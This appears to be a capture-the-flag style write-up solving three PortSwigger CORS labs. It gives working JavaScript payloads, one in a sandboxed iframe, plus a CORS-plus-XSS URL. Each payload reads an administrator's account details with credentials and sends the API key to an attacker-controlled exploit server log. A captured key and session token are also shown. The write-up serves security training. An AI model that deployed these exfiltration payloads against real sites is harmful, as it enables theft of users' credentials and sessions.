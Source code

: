 ```yaml
---
title: CORS - PortSwigger
date: 2022-6-15 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, CORS]     # TAG names should always be lowercase
---
```


<br />

### Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

---

<br />

### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Goal : craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.
- I saw this endpoint `/accountDetails` in the profile page source.

<img src="/assets/img/portswigger/cors/1_1.png" style="zoom:80%;" />

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```javascript
  Origin: test.com
  ```

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src="/assets/img/portswigger/cors/1_2.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
     location='<your-exploit-server>/log?key='+this.responseText;
  };
  
  </script>
  ```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

- Go back to the exploit server and click **Deliver exploit to victim**.

- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

```json
{  "username": "administrator",  "email": "",  "apikey": "SaCAyGSHgJD1QifqVNXAKr82XZKAra7S",  "sessions": [    "zLW0oQ69tCRLl2Dw3ZOu34JMgMPRa10k"  ]}
```

<br /><br />

---



### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

-  resubmit it with the null value `Origin: null`

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src="/assets/img/portswigger/cors/2_1.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
  location='<your-exploit-server>/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

  >the exploit exists in  sandbox iframe to be sent from null origin

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

<br /><br />

---





### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```
  Origin: test.com 
  OR
  Origin: null
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

- go to any product and click `check stock` , note that it responds from a `stock` subdomain

- write this subdomain in the `Origin` header 

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header

<img src="/assets/img/portswigger/cors/3_1.png" style="zoom:80%;" />



<br />

- now to exploit the CORS misconfiguration we need to find `XSS` in the stock subdomain or any other one

- Observe the two parameters in the stock subdomain , note that the  `productID` parameter is vulnerable to `XSS`
  ```bash
  http://stock.<your-lab-url>.web-security-academy.net/?productId=1%3cscript%3ealert(1)%3c%2fscript%3e2&storeId=2
  ```

  <br />

<img src="/assets/img/portswigger/cors/3_2.png" style="zoom:80%;" />

<br />

- now with `CORS+XSS` we can get the administrator api key by sending a request to the`stock` subdomain with the CORS exploit in the  `productID` parameter
-  go to the exploit server and enter the following HTML

```javascript
<script>
    document.location="http://stock.<your-lab-url>.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://.<your-lab-url>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-<your-exploit-url>.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.





---









